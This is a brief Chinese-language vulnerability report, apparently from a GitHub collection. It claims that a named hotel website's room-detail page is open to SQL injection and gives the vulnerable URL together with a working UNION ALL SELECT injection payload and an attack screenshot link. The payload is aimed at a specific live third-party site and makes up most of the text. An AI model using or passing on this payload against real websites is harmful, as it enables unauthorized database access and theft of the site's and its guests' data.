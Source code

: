 #EMBRYO酒店网站存在SQL注入漏洞 漏洞出现:http://www.embryohotel.com/room-detail.php?id=1 Payload: id=-5476 UNION ALL SELECT NULL,NULL,CONCAT(0x71716b6a71,0x64556a4c4d4161445572766b49646a6a65485a4473516677746450534f777054454f5062644d6d78,0x7171706b71),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL--

攻击截图:![attack](img/IMG_1.png)
